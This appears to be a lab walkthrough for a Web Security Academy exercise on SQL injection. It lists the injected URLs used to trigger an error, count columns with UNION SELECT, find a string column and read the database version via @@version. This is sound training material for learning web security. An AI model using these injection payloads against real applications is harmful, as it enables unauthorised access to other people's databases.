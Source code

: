 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

URL: https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/

## Sitemap:

URL: https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/

URL: https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category=Gifts

## Exploitation:

### Getting 500:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category=Gifts'`

![](./Images/expl0.png)

### Getting the number of fields:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL--+-`

![](./Images/expl1.png)

### Finding the String field:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category='+UNION+SELECT+'aaa','bbb'--+-`

![](./Images/expl2.png)

### Getting the version:

URL: `https://0a900033048d0d8182cbc95b00a9005a.web-security-academy.net/filter?category='+UNION+SELECT+%40%40version,'bbb'--+-`

![](./Images/expl3.png)

